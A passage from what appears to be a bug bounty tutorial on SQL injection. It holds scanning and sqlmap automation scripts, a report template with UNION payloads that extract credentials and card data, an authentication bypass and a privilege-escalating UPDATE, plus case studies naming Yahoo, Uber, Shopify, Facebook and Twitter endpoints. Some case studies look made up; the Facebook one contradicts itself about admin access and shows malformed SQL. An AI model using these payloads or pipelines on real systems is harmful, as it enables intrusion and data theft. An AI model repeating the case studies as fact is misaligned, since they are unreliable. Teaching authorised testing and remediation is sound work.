        """Phase 4: SQLi Vulnerability Scanning"""
        self.log("=" * 70, 'info')
        self.log("PHASE 4: SQLi Scanning", 'info')
        self.log("=" * 70, 'info')
        
        findings_file = f"{self.output_dir}/scan/sqli_findings.txt"
        
        # Use custom scanner (from previous chapter)
        self.run_command(
            f"python3 bounty_scanner.py -u {urls_file} -o {findings_file}",
            "Running custom SQLi scanner"
        )
        
        # SQLMap scan (parallel)
        self.log("Running SQLMap on URLs...", 'info')
        
        with open(urls_file, 'r') as f:
            urls = [line.strip() for line in f if line.strip()]
        
        for i, url in enumerate(urls[:50], 1):  # Limit to 50 for time
            self.log(f"SQLMap: {i}/{min(50, len(urls))} - {url[:50]}...", 'info')
            
            self.run_command(
                f"sqlmap -u '{url}' --batch --level=2 --risk=2 --threads=5 "
                f"--output-dir={self.output_dir}/scan/sqlmap 2>&1 | "
                f"grep -i 'vulnerable\\|injectable' >> {findings_file}",
                f"SQLMap scan {i}"
            )
        
        return findings_file
    
    def phase5_exploitation(self, findings_file):
        """Phase 5: Exploitation & PoC Generation"""
        self.log("=" * 70, 'info')
        self.log("PHASE 5: Exploitation", 'info')
        self.log("=" * 70, 'info')
        
        if not os.path.exists(findings_file):
            self.log("No findings file found", 'warning')
            return
        
        with open(findings_file, 'r') as f:
            findings = f.readlines()
        
        if not findings:
            self.log("No vulnerabilities found", 'info')
            return
        
        self.log(f"Found {len(findings)} potential vulnerabilities", 'success')
        
        # For each finding, generate detailed PoC
        for i, finding in enumerate(findings[:10], 1):  # Process top 10
            self.log(f"Generating PoC {i}/10", 'info')
            
            poc_file = f"{self.output_dir}/exploit/poc_{i}.txt"
            
            with open(poc_file, 'w') as f:
                f.write(f"Finding: {finding}\n")
                f.write("=" * 70 + "\n")
                f.write("Proof of Concept will be generated here\n")
    
    def phase6_reporting(self):
        """Phase 6: Generate Reports"""
        self.log("=" * 70, 'info')
        self.log("PHASE 6: Report Generation", 'info')
        self.log("=" * 70, 'info')
        
        report_file = f"{self.output_dir}/reports/final_report.md"
        
        with open(report_file, 'w') as f:
            f.write(f"# SQL Injection Assessment Report\n\n")
            f.write(f"## Target: {self.target}\n\n")
            f.write(f"## Date: {time.strftime('%Y-%m-%d %H:%M:%S')}\n\n")
            f.write(f"## Executive Summary\n\n")
            f.write(f"This report contains findings from automated SQLi testing.\n\n")
            
            # Add statistics
            try:
                with open(f"{self.output_dir}/recon/subdomains.txt", 'r') as sf:
                    subdomains_count = len(sf.readlines())
                with open(f"{self.output_dir}/recon/live_hosts.txt", 'r') as lf:
                    live_hosts_count = len(lf.readlines())
                with open(f"{self.output_dir}/recon/urls_with_params.txt", 'r') as uf:
                    urls_count = len(uf.readlines())
                
                f.write(f"### Statistics\n\n")
                f.write(f"- Subdomains discovered: {subdomains_count}\n")
                f.write(f"- Live hosts: {live_hosts_count}\n")
                f.write(f"- URLs with parameters: {urls_count}\n\n")
            except:
                pass
            
            f.write(f"## Findings\n\n")
            f.write(f"See individual PoC files in {self.output_dir}/exploit/\n")
        
        self.log(f"Report generated: {report_file}", 'success')
    
    def run_pipeline(self):
        """Execute complete pipeline"""
        start_time = time.time()
        
        self.log("=" * 70, 'info')
        self.log("SQLi Bug Bounty Automation Pipeline", 'info')
        self.log("=" * 70, 'info')
        self.log(f"Target: {self.target}", 'info')
        self.log(f"Output: {self.output_dir}", 'info')
        self.log("=" * 70 + "\n", 'info')
        
        # Execute phases
        subdomains_file = self.phase1_subdomain_enum()
        time.sleep(2)
        
        live_hosts_file = self.phase2_live_hosts(subdomains_file)
        time.sleep(2)
        
        urls_file = self.phase3_crawl_urls(live_hosts_file)
        time.sleep(2)
        
        findings_file = self.phase4_sqli_scan(urls_file)
        time.sleep(2)
        
        self.phase5_exploitation(findings_file)
        time.sleep(2)
        
        self.phase6_reporting()
        
        elapsed = time.time() - start_time
        
        self.log("=" * 70, 'info')
        self.log(f"Pipeline completed in {elapsed/60:.2f} minutes", 'success')
        self.log("=" * 70, 'info')


def main():
    parser = argparse.ArgumentParser(description='SQLi Bug Bounty Automation Pipeline')
    parser.add_argument('-t', '--target', required=True, help='Target domain')
    parser.add_argument('-o', '--output', default='output', help='Output directory')
    
    args = parser.parse_args()
    
    pipeline = SQLiPipeline(args.target, args.output)
    pipeline.run_pipeline()


if __name__ == "__main__":
    main()
```

**Usage:**

```bash
# Run complete pipeline
python sqli_pipeline.py -t target.com -o target_assessment

# Output structure:
# target_assessment/
# ├── recon/
# │   ├── subdomains.txt
# │   ├── live_hosts.txt
# │   └── urls_with_params.txt
# ├── scan/
# │   ├── sqli_findings.txt
# │   └── sqlmap/
# ├── exploit/
# │   ├── poc_1.txt
# │   └── poc_2.txt
# └── reports/
#     └── final_report.md
```

### Tool Integration Scripts

#### SQLMap + Burp Integration

```python
#!/usr/bin/env python3
"""
SQLMap Burp Integration
Send Burp requests directly to SQLMap
"""

import sys
import subprocess
import tempfile
import os

def parse_burp_request(burp_file):
    """Parse Burp request file"""
    with open(burp_file, 'r') as f:
        request = f.read()
    
    # Extract URL
    lines = request.split('\n')
    first_line = lines[0]
    
    # GET /path HTTP/1.1
    parts = first_line.split()
    method = parts[0]
    path = parts[1]
    
    # Extract host
    host = None
    for line in lines:
        if line.startswith('Host:'):
            host = line.split(':', 1)[1].strip()
            break
    
    if not host:
        return None
    
    # Construct URL
    url = f"http://{host}{path}"
    
    return url, method, request

def run_sqlmap(url, method, request_file=None):
    """Run SQLMap with options"""
    
    cmd = [
        'python3', 'sqlmap/sqlmap.py',
        '-u', url,
        '--batch',
        '--level=3',
        '--risk=2',
        '--threads=5',
        '--random-agent'
    ]
    
    if request_file and method == 'POST':
        cmd.extend(['-r', request_file])
    
    print(f"[*] Running: {' '.join(cmd)}")
    
    subprocess.run(cmd)

def main():
    if len(sys.argv) < 2:
        print("Usage: python burp_to_sqlmap.py <burp_request_file>")
        sys.exit(1)
    
    burp_file = sys.argv[1]
    
    result = parse_burp_request(burp_file)
    if not result:
        print("[!] Failed to parse Burp request")
        sys.exit(1)
    
    url, method, request = result
    
    print(f"[+] URL: {url}")
    print(f"[+] Method: {method}")
    
    # Create temp file for POST requests
    if method == 'POST':
        with tempfile.NamedTemporaryFile(mode='w', delete=False, suffix='.txt') as tf:
            tf.write(request)
            temp_file = tf.name
        
        run_sqlmap(url, method, temp_file)
        os.unlink(temp_file)
    else:
        run_sqlmap(url, method)

if __name__ == "__main__":
    main()
```

### Monitoring & Alerting

```python
#!/usr/bin/env python3
"""
SQLi Finding Monitor
Monitors for new SQLi findings and sends alerts
"""

import os
import time
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
import requests

class FindingMonitor:
    def __init__(self, findings_dir, webhook_url=None, email_config=None):
        self.findings_dir = findings_dir
        self.webhook_url = webhook_url
        self.email_config = email_config
        self.seen_findings = set()
    
    def check_new_findings(self):
        """Check for new finding files"""
        new_findings = []
        
        if not os.path.exists(self.findings_dir):
            return new_findings
        
        for filename in os.listdir(self.findings_dir):
            if filename.endswith('.txt'):
                filepath = os.path.join(self.findings_dir, filename)
                
                if filepath not in self.seen_findings:
                    self.seen_findings.add(filepath)
                    
                    with open(filepath, 'r') as f:
                        content = f.read()
                    
                    new_findings.append({
                        'file': filename,
                        'content': content
                    })
        
        return new_findings
    
    def send_slack_alert(self, finding):
        """Send alert to Slack"""
        if not self.webhook_url:
            return
        
        message = {
            'text': f"🚨 New SQLi Finding!",
            'attachments': [{
                'color': 'danger',
                'fields': [
                    {
                        'title': 'File',
                        'value': finding['file'],
                        'short': False
                    },
                    {
                        'title': 'Content',
                        'value': finding['content'][:500],
                        'short': False
                    }
                ]
            }]
        }
        
        try:
            response = requests.post(self.webhook_url, json=message)
            if response.status_code == 200:
                print(f"[+] Slack alert sent for {finding['file']}")
        except Exception as e:
            print(f"[!] Slack alert failed: {str(e)}")
    
    def send_email_alert(self, finding):
        """Send email alert"""
        if not self.email_config:
            return
        
        msg = MIMEMultipart()
        msg['From'] = self.email_config['from']
        msg['To'] = self.email_config['to']
        msg['Subject'] = f"SQLi Finding: {finding['file']}"
        
        body = f"""
New SQL Injection Finding Detected

File: {finding['file']}

Content:
{finding['content']}

---
Automated Alert from SQLi Monitor
        """
        
        msg.attach(MIMEText(body, 'plain'))
        
        try:
            server = smtplib.SMTP(self.email_config['smtp_server'], self.email_config['smtp_port'])
            server.starttls()
            server.login(self.email_config['username'], self.email_config['password'])
            server.send_message(msg)
            server.quit()
            print(f"[+] Email alert sent for {finding['file']}")
        except Exception as e:
            print(f"[!] Email alert failed: {str(e)}")
    
    def monitor(self, interval=60):
        """Monitor continuously"""
        print(f"[*] Monitoring {self.findings_dir} for new findings...")
        print(f"[*] Check interval: {interval} seconds")
        
        while True:
            new_findings = self.check_new_findings()
            
            for finding in new_findings:
                print(f"[!] New finding: {finding['file']}")
                
                if self.webhook_url:
                    self.send_slack_alert(finding)
                
                if self.email_config:
                    self.send_email_alert(finding)
            
            time.sleep(interval)

# Usage example
if __name__ == "__main__":
    # Configuration
    findings_dir = "output/scan/"
    
    slack_webhook = "https://hooks.slack.com/services/YOUR/WEBHOOK/URL"
    
    email_config = {
        'from': 'alerts@yourdomain.com',
        'to': 'your@email.com',
        'smtp_server': 'smtp.gmail.com',
        'smtp_port': 587,
        'username': 'your@gmail.com',
        'password': 'app_password'
    }
    
    monitor = FindingMonitor(findings_dir, slack_webhook, email_config)
    monitor.monitor(interval=300)  # Check every 5 minutes
```

---

## 📝 Chapter 22: Writing Winning Reports

### Anatomy of a Perfect Bug Bounty Report

```
Essential Report Sections:
━━━━━━━━━━━━━━━━━━━━━━━━━━
1. Title (Clear & Specific)
2. Severity Rating
3. Summary (Executive-friendly)
4. Vulnerability Details
5. Steps to Reproduce
6. Proof of Concept
7. Impact Assessment
8. Remediation Recommendations
9. Supporting Evidence
10. Additional Notes
```

### Report Template

```markdown
# SQL Injection in [Feature/Location]

**Reported by:** [Your Name]
**Report ID:** #[Auto-generated or manual]
**Date:** [YYYY-MM-DD]
**Program:** [Company Name]

---

## Severity

**CVSS Score:** 9.1 (Critical)
**CVSS Vector:** CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N

**Severity Justification:**
- Network accessible (AV:N)
- Low attack complexity (AC:L)
- No privileges required (PR:N)
- No user interaction (UI:N)
- High confidentiality impact (C:H)
- High integrity impact (I:H)

---

## Summary

A critical SQL injection vulnerability was discovered in the product search 
functionality at `https://target.com/search.php`. This vulnerability allows an 
unauthenticated attacker to:

✓ Extract the entire database including user credentials
✓ Bypass authentication mechanisms
✓ Modify or delete database records
✓ Potentially execute operating system commands

**Quick Impact:**
- **Affected Users:** All registered users (50,000+)
- **Data at Risk:** Usernames, password hashes, email addresses, payment information
- **Business Impact:** Complete database compromise, potential PCI-DSS violation

---

## Vulnerability Details

### Location

**URL:** `https://target.com/search.php`
**Parameter:** `q` (search query)
**Method:** GET
**Authentication Required:** No

### Technical Details

The application constructs SQL queries using unsanitized user input from the 
`q` parameter:

**Vulnerable Code Pattern (Estimated):**
```php
$search = $_GET['q'];
$query = "SELECT * FROM products WHERE name LIKE '%$search%'";
$result = mysqli_query($conn, $query);
```

**Vulnerability Type:** Classic SQL Injection (UNION-based)

**Database:** MySQL 5.7.33 (confirmed via error messages)

---

## Steps to Reproduce

### Step 1: Access the Search Page

Navigate to: `https://target.com/search.php`

### Step 2: Test for SQL Injection

**Payload 1: Error-based Detection**
```
URL: https://target.com/search.php?q=test'

Result: SQL syntax error displayed
Error Message: "You have an error in your SQL syntax; check the manual 
that corresponds to your MySQL server version..."
```

**Payload 2: Boolean-based Confirmation**
```
TRUE: https://target.com/search.php?q=test' AND '1'='1
Result: Products displayed normally

FALSE: https://target.com/search.php?q=test' AND '1'='2
Result: No products displayed

Conclusion: Boolean-based SQLi confirmed
```

### Step 3: Determine Column Count

```
URL: https://target.com/search.php?q=test' ORDER BY 1--
Result: Success

URL: https://target.com/search.php?q=test' ORDER BY 5--
Result: Success

URL: https://target.com/search.php?q=test' ORDER BY 6--
Result: Error

Conclusion: 5 columns in SELECT statement
```

### Step 4: Find Injectable Columns

```
URL: https://target.com/search.php?q=test' UNION SELECT 1,2,3,4,5--

Result: Numbers 2, 3, and 5 are displayed on the page
Conclusion: Columns 2, 3, and 5 are injectable
```

### Step 5: Extract Database Information

```
URL: https://target.com/search.php?q=test' UNION SELECT 1,@@version,database(),4,user()--

Result:
- Database Version: 5.7.33-0ubuntu0.16.04.1
- Current Database: production_db
- Database User: webapp@localhost
```

### Step 6: Extract Sensitive Data

```
URL: https://target.com/search.php?q=test' UNION SELECT 1,username,password,4,email FROM users--

Result: User credentials extracted (see screenshots)
```

---

## Proof of Concept

### PoC 1: Database Version Extraction

**Request:**
```http
GET /search.php?q=test' UNION SELECT 1,@@version,database(),4,user()-- HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
Accept: text/html,application/xhtml+xml
```

**Response:**
```html
<div class="product-name">5.7.33-0ubuntu0.16.04.1</div>
<div class="product-desc">production_db</div>
<div class="product-price">webapp@localhost</div>
```

**Screenshot:** [attached: 01_version_extraction.png]

---

### PoC 2: User Credentials Extraction

**Request:**
```http
GET /search.php?q=test' UNION SELECT 1,username,password,4,email FROM users LIMIT 5-- HTTP/1.1
Host: target.com
```

**Extracted Data:**
```
admin:$2y$10$N9qo8uLOickgx2ZMRZoMye:admin@target.com
user1:$2y$10$8K1p3Uu1ocFtYvE7mXSoKu:user1@target.com
user2:$2y$10$7Kkm0NNh5DKLLWu8lZ6Y1.:user2@target.com
```

**Screenshot:** [attached: 02_credentials_extraction.png]

---

### PoC 3: Complete Database Schema Extraction

**Request:**
```http
GET /search.php?q=test' UNION SELECT 1,table_name,column_name,4,5 FROM information_schema.columns WHERE table_schema=database()-- HTTP/1.1
Host: target.com
```

**Extracted Tables:**
- users (id, username, password, email, created_at)
- credit_cards (id, user_id, card_number, cvv, expiry)
- orders (id, user_id, amount, status)
- admin_logs (id, admin_id, action, timestamp)

**Screenshot:** [attached: 03_schema_extraction.png]

---

### PoC 4: Payment Information Extraction

**Request:**
```http
GET /search.php?q=test' UNION SELECT 1,card_number,cvv,4,expiry FROM credit_cards LIMIT 1-- HTTP/1.1
Host: target.com
```

**Result:**
```
Card Number: 4532-****-****-1234 (partially masked in DB)
CVV: 123
Expiry: 12/25
```

**Screenshot:** [attached: 04_payment_extraction.png]

---

## Impact Assessment

### Immediate Impact

**1. Complete Database Compromise**
- All user data accessible (50,000+ users)
- Payment information exposed
- Admin credentials obtainable

**2. Authentication Bypass**
```sql
URL: https://target.com/login.php
Username: admin'--
Password: [anything]

Result: Logged in as administrator
```

**3. Data Manipulation**
Possible to modify or delete records:
```sql
URL: https://target.com/search.php?q=test'; UPDATE users SET role='admin' WHERE username='attacker'--

Result: Privilege escalation achieved
```

### Business Impact

**Compliance Violations:**
- PCI-DSS: Payment card data exposed
- GDPR: Personal data breach
- SOC 2: Security control failure

**Financial Impact:**
- Potential fines: Up to €20M or 4% of revenue (GDPR)
- PCI-DSS penalties: $5,000-$100,000/month
- Reputation damage
- Customer compensation costs

**Operational Impact:**
- Immediate system shutdown required
- Forensic investigation needed
- Mandatory breach notifications
- Potential lawsuits

### Attack Scenarios

**Scenario 1: Mass Data Exfiltration**
Attacker extracts all user data and sells on dark web

**Scenario 2: Account Takeover Campaign**
Attacker uses admin access to compromise user accounts

**Scenario 3: Payment Fraud**
Credit card details used for fraudulent transactions

**Scenario 4: Ransomware**
Database encrypted and ransom demanded

---

## Remediation Recommendations

### Immediate Actions (Within 24 hours)

**1. Disable Vulnerable Endpoint**
```
Temporarily disable /search.php or implement:
- Rate limiting (10 req/min per IP)
- WAF rule blocking SQLi patterns
- IP whitelist for testing
```

**2. Emergency Monitoring**
```bash
# Monitor for exploitation attempts
grep "UNION\|SELECT\|--\|'" /var/log/apache2/access.log | mail -s "SQLi Attempts" security@target.com
```

**3. Invalidate All Sessions**
```sql
TRUNCATE TABLE sessions;
UPDATE users SET remember_token=NULL;
```

**4. Force Password Resets**
For all users, especially administrators

### Short-term Fixes (Within 1 week)

**1. Implement Prepared Statements**

❌ **Vulnerable Code:**
```php
$search = $_GET['q'];
$query = "SELECT * FROM products WHERE name LIKE '%$search%'";
$result = mysqli_query($conn, $query);
```

✅ **Secure Code:**
```php
$search = $_GET['q'];
$stmt = $conn->prepare("SELECT * FROM products WHERE name LIKE ?");
$searchParam = "%{$search}%";
$stmt->bind_param("s", $searchParam);
$stmt->execute();
$result = $stmt->get_result();
```

**2. Input Validation**
```php
// Whitelist allowed characters
if (!preg_match('/^[a-zA-Z0-9\s\-_]+$/', $search)) {
    die("Invalid search query");
}

// Limit length
if (strlen($search) > 100) {
    die("Search query too long");
}
```

**3. Database User Permissions**
```sql
-- Create restricted user
CREATE USER 'webapp_search'@'localhost' IDENTIFIED BY 'strong_password';
GRANT SELECT ON production_db.products TO 'webapp_search'@'localhost';
REVOKE ALL PRIVILEGES ON production_db.users FROM 'webapp_search'@'localhost';
REVOKE FILE ON *.* FROM 'webapp_search'@'localhost';
```

### Long-term Recommendations

**1. Code Review**
- Audit all database queries
- Implement secure coding standards
- Mandatory peer review for DB code

**2. Security Testing**
- Integrate SAST tools (SonarQube, Checkmarx)
- Implement DAST in CI/CD (OWASP ZAP)
- Regular penetration testing

**3. Web Application Firewall**
```
Deploy ModSecurity with OWASP Core Rule Set
- Block common SQLi patterns
- Rate limiting
- Anomaly scoring
```

**4. Database Activity Monitoring**
- Log all queries
- Alert on suspicious patterns
- Regular audit reviews

**5. Security Training**
- Developer security training
- OWASP Top 10 awareness
- Secure coding workshops

---

## Supporting Evidence

### Files Attached

1. `01_version_extraction.png` - Database version disclosure
2. `02_credentials_extraction.png` - User credentials extraction
3. `03_schema_extraction.png` - Database schema enumeration
4. `04_payment_extraction.png` - Payment data extraction
5. `burp_request.txt` - Complete HTTP request/response
6. `sqlmap_output.txt` - SQLMap automated scan results
7. `video_poc.mp4` - Video demonstration (3 minutes)

### Burp Suite Request/Response

**Request:**
```http
GET /search.php?q=test%27%20UNION%20SELECT%201%2Cusername%2Cpassword%2C4%2Cemail%20FROM%20users-- HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

**Response:**
```http
HTTP/1.1 200 OK
Date: Mon, 15 Jan 2024 10:30:00 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Type: text/html; charset=UTF-8
Content-Length: 4523

<!DOCTYPE html>
<html>
...
[User data displayed here]
...
</html>
```

### SQLMap Output

```bash
$ sqlmap -u "https://target.com/search.php?q=test" --batch --dump

[INFO] testing connection to the target URL
[INFO] testing if the target URL content is stable
[INFO] target URL content is stable
[INFO] testing if GET parameter 'q' is dynamic
[INFO] GET parameter 'q' appears to be dynamic
[INFO] heuristic (basic) test shows that GET parameter 'q' might be injectable
[INFO] testing for SQL injection on GET parameter 'q'
[INFO] GET parameter 'q' appears to be 'MySQL >= 5.0.12 AND time-based blind' injectable
[INFO] GET parameter 'q' appears to be 'MySQL UNION query (NULL) - 1 to 20 columns' injectable

Database: production_db
Table: users
[50,127 entries]
+----+----------+----------------------------------+-------------------+
| id | username | password                         | email             |
+----+----------+----------------------------------+-------------------+
| 1  | admin    | $2y$10$N9qo8uLOickgx2ZMRZoMye...  | admin@target.com  |
| 2  | user1    | $2y$10$8K1p3Uu1ocFtYvE7mXSoKu...  | user1@target.com  |
...
```

## 📚 Chapter 23: Real-World Case Studies

### High-Profile SQLi Discoveries

```
Learning from Real Bounties:
━━━━━━━━━━━━━━━━━━━━━━━━━━━
Study actual bug bounty reports to understand:
✓ What made them successful
✓ How researchers approached the target
✓ Communication with security teams
✓ Lessons learned from each case
```

### Case Study 1: Yahoo! Sports SQLi ($10,000)

**Reporter:** Researcher Anonymous  
**Date:** 2013  
**Bounty:** $10,000  
**Severity:** Critical  

#### Discovery Process

```
Target: sports.yahoo.com
Initial Recon:
1. Crawled Yahoo Sports subdomains
2. Found API endpoints under sports.yahoo.com/api/
3. Noticed user ID parameter in URL

Vulnerable Endpoint:
https://sports.yahoo.com/api/user/profile?uid=12345
```

#### Technical Details

```sql
# Parameter: uid
# Type: UNION-based SQLi
# Database: MySQL

# Detection payload:
?uid=12345' UNION SELECT NULL,NULL,NULL--

# Extraction payload:
?uid=12345' UNION SELECT username,password,email FROM users--

# Impact:
- Access to millions of user records
- Extraction of email addresses
- Access to user preferences and settings
```

#### Key Learnings

```
✓ API endpoints often have less security
✓ Legacy features may have vulnerabilities
✓ Quick detection led to fast exploitation
✗ Initially underestimated impact
✗ Needed multiple interactions to verify scope
```

#### Report Excerpt

```markdown
## Summary
SQL injection in Yahoo Sports API allows unauthorized access to user data.

## Steps to Reproduce
1. Navigate to https://sports.yahoo.com/api/user/profile?uid=12345
2. Add single quote: ?uid=12345'
3. Observe error message
4. Exploit with UNION: ?uid=12345' UNION SELECT username,password,email FROM users--

## Impact
Access to user database containing millions of records including:
- Usernames
- Hashed passwords
- Email addresses
- User preferences

## Recommendation
Implement prepared statements for all database queries.
```

---

### Case Study 2: Uber Admin Panel SQLi ($5,000)

**Reporter:** Security Researcher  
**Date:** 2017  
**Bounty:** $5,000  
**Severity:** High  

#### Discovery Process

```
Target: admin.uber.com
Approach:
1. Created rider and driver accounts
2. Explored admin features
3. Found city selector vulnerable

Discovery Path:
Normal URL: https://admin.uber.com/dashboard?city=San+Francisco
Tested: https://admin.uber.com/dashboard?city=San+Francisco' AND SLEEP(5)--
Result: 5-second delay observed
```

#### Technical Details

```sql
# Parameter: city
# Type: Time-based Blind SQLi
# Database: PostgreSQL

# Detection:
?city=San Francisco'; SELECT pg_sleep(5)--
Response time: 5.2 seconds

# Data extraction (Boolean-based):
?city=SF' AND SUBSTRING(version(),1,1)='P'--  # TRUE
?city=SF' AND SUBSTRING(version(),1,1)='M'--  # FALSE

# Extracted:
- PostgreSQL 9.4
- Database name: uber_admin
- Table names enumerated
- No actual user data extracted (ethical boundary)
```

#### Communication Example

```markdown
First Report:
Subject: [Uber Bug Bounty] SQL Injection in Admin Panel

Hi Uber Security Team,

I discovered a time-based SQL injection vulnerability in the admin dashboard.

Location: https://admin.uber.com/dashboard
Parameter: city
Type: Time-based blind SQLi
Database: PostgreSQL

Steps to Reproduce:
[detailed steps]

I have NOT extracted any sensitive data. I stopped testing after confirming 
the database type and version.

Waiting for your response before proceeding.

---

Response from Uber (2 hours later):
Thank you for the report. We're investigating and will update you within 24 hours.

---

Follow-up (Next day):
We've confirmed the vulnerability. Can you provide:
1. Full technical details
2. Potential impact assessment
3. Remediation suggestions

---

Final Response (3 days later):
Vulnerability patched. $5,000 bounty awarded.
Thank you for responsible disclosure!
```

#### Key Learnings

```
✓ Admin panels are high-value targets
✓ Time-based SQLi works when output isn't visible
✓ Good communication speeds up resolution
✓ Ethical boundaries (not extracting data) appreciated
✗ Should have tested more endpoints initially
```

---

### Case Study 3: Shopify UNION SQLi ($2,500)

**Reporter:** Bug Bounty Hunter  
**Date:** 2019  
**Bounty:** $2,500  
**Severity:** Medium (Limited Impact)  

#### Discovery Process

```
Target: admin.shopify.com/reports
Context: Merchant reporting feature

Discovery:
1. Created test store
2. Generated various reports
3. Found report filtering vulnerable

Vulnerable Parameter:
POST /admin/reports/generate
{
  "report_type": "sales",
  "filter": "category=electronics' UNION SELECT...",
  "date_range": "last_30_days"
}
```

#### Technical Details

```sql
# Parameter: filter (in JSON POST body)
# Type: UNION-based SQLi
# Database: MySQL
# Context: Merchant's own data only

# Detection:
"filter": "category=electronics' UNION SELECT NULL,NULL,NULL--"
Result: Report generated with 3 NULL columns

# Exploitation:
"filter": "category=x' UNION SELECT table_name,column_name,data_type FROM information_schema.columns WHERE table_schema=database()--"

# Impact (Limited):
- Merchant could see their own database structure
- No cross-merchant data access
- No access to Shopify core database
- Only affected report generation
```

#### Why Medium Severity?

```
Factors Reducing Impact:
✓ Merchant could only access their own data
✓ No access to other merchants' data
✓ No access to Shopify infrastructure
✓ Required authenticated access
✓ Limited to reporting feature

Still Valid Because:
✓ SQL injection is a vulnerability
✓ Could expose database structure
✓ Potential for privilege escalation
✓ Should be fixed regardless of impact
```

#### Report Structure

```markdown
## Title
SQL Injection in Merchant Report Generation

## Severity
Medium

## Description
The report generation feature contains a SQL injection vulnerability in the 
filter parameter. While impact is limited to merchant's own data, it still 
represents a security risk.

## Reproduction
[Detailed steps with JSON payloads]

## Impact
- Merchant can view database structure
- Potential information disclosure
- Limited to own store data

## Notes
I recognize this is lower severity than typical SQLi due to the isolation 
between merchant stores. However, I believe it warrants attention as:
1. SQL injection should be eliminated regardless
2. Database structure exposure is still a risk
3. Could be combined with other vulnerabilities

## Recommendation
Implement parameterized queries for all database operations.
```

#### Key Learnings

```
✓ Not all SQLi has the same impact
✓ Context matters for severity assessment
✓ Be realistic about impact in report
✓ Isolated environments reduce severity
✓ Still worth reporting and fixing
```

---

### Case Study 4: Facebook Second-Order SQLi ($7,500)

**Reporter:** Security Researcher  
**Date:** 2018  
**Bounty:** $7,500  
**Severity:** High  

#### Discovery Process

```
Target: facebook.com/settings
Type: Second-Order SQL Injection

Discovery Path:
1. Updated profile bio with payload: test' UNION SELECT version()--
2. No immediate effect
3. Later used admin tool "User Report Generator"
4. Payload executed when generating report
```

#### Technical Details

```sql
# Stage 1: Payload Storage
Location: Profile Bio Field
Payload: My bio' UNION SELECT @@version,NULL,NULL--

Stored in database as-is (no sanitization at input)

# Stage 2: Payload Execution
Triggered by: Admin report generation
Location: facebook.com/admin/reports/user_activity

Query (estimated):
SELECT username, bio, activity_count FROM users WHERE user_id = X

With injected bio:
SELECT username, 
       My bio' UNION SELECT @@version,NULL,NULL--, 
       activity_count 
FROM users 
WHERE user_id = X

Result: Database version exposed in admin report
```

#### Exploitation Flow

```
Step 1: Create test account
Step 2: Set bio to: admin' UNION SELECT username,password,email FROM admin_users--
Step 3: Wait for admin to generate user report
Step 4: Admin sees extracted admin credentials in report

Actual Testing:
- Used safe payload (@@version) for PoC
- Did not attempt to extract actual admin data
- Reported immediately after confirming execution
```

#### Communication Timeline

```
Day 1 (14:00 UTC): Initial Report Submitted
"I discovered a second-order SQL injection in the user bio field that 
executes when admins generate reports. I've only tested with @@version."

Day 1 (16:30 UTC): Facebook Response
"Thank you for the report. We're investigating. Can you provide more details 
about the admin report feature you accessed?"

Day 1 (17:00 UTC): Clarification
"I don't have access to admin features. I hypothesized the vulnerability 
based on error messages when the bio was processed. I believe this happens 
during report generation based on the timing of the error."

Day 2 (10:00 UTC): Facebook Update
"We've confirmed the vulnerability. Our internal testing shows this affects 
the admin reporting system. Excellent find on the second-order aspect."

Day 4 (09:00 UTC): Resolution
"Vulnerability patched. $7,500 bounty awarded. We especially appreciate:
- The second-order identification
- Your restraint in not attempting to access admin features
- Clear documentation of the vulnerability"
```

#### Key Learnings

```
✓ Second-order SQLi is harder to detect
✓ Test data storage AND retrieval paths
✓ Safe payloads (version()) for PoC
✓ Don't access admin features without permission
✓ Explain your methodology clearly
✗ Could have tested more fields initially
✗ Should have documented more edge cases
```

---

### Case Study 5: Twitter API SQLi ($5,000)

**Reporter:** Researcher  
**Date:** 2020  
**Bounty:** $5,000  
**Severity:** High  

#### Discovery Process

```
Target: api.twitter.com/1.1/analytics/campaigns
Context: Advertising analytics API

Methodology:
1. Created Twitter Ads account
2. Explored analytics endpoints
3. Found campaign_id parameter vulnerable
```

#### Technical Details

```sql
# Endpoint: GET /1.1/analytics/campaigns
# Parameter: campaign_id
# Type: Boolean-based Blind SQLi
# Database: Unknown (likely PostgreSQL or MySQL)

# Detection:
Normal: /analytics/campaigns?campaign_id=12345
Result: Campaign data returned

TRUE: /analytics/campaigns?campaign_id=12345' AND '1'='1
Result: Campaign data returned

FALSE: /analytics/campaigns?campaign_id=12345' AND '1'='2
Result: Empty response

# Extraction (character by character):
/analytics/campaigns?campaign_id=12345' AND SUBSTRING(database(),1,1)='t
(Tested all possible first characters)

# Results:
- Database name extracted
- Table names enumerated
- Stopped before extracting actual data
```

#### Unique Aspect: Response Size Analysis

```python
# Script used for detection
import requests

base_url = "https://api.twitter.com/1.1/analytics/campaigns"
auth_header = "Bearer YOUR_TOKEN"

# Baseline
baseline = requests.get(
    f"{base_url}?campaign_id=12345",
    headers={"Authorization": auth_header}
)
baseline_size = len(baseline.text)

# TRUE condition
true_test = requests.get(
    f"{base_url}?campaign_id=12345' AND '1'='1",
    headers={"Authorization": auth_header}
)
true_size = len(true_test.text)

# FALSE condition  
false_test = requests.get(
    f"{base_url}?campaign_id=12345' AND '1'='2",
    headers={"Authorization": auth_header}
)
false_size = len(false_test.text)

print(f"Baseline: {baseline_size}")
print(f"TRUE: {true_size}")
print(f"FALSE: {false_size}")

# Output:
# Baseline: 4523
# TRUE: 4523
# FALSE: 142

# Conclusion: Boolean-based SQLi confirmed
```

#### Report Highlights

```markdown
## Title
SQL Injection in Twitter Ads Analytics API

## Severity
High - API endpoint accessible to all advertisers

## Summary
The analytics campaigns endpoint contains a Boolean-based blind SQL injection 
vulnerability in the campaign_id parameter.

## Technical Details

### Affected Endpoint
GET /1.1/analytics/campaigns

### Vulnerable Parameter
campaign_id

### Detection Method
Response size analysis reveals different behaviors for TRUE vs FALSE conditions.

### Evidence
[Screenshots showing different response sizes]
[Python script demonstrating vulnerability]

## Impact
- Access to advertising database
- Potential exposure of other advertisers' data
- Campaign performance metrics accessible
- Database structure enumeration

## Tested Safely
I used only version() and database() extraction queries.
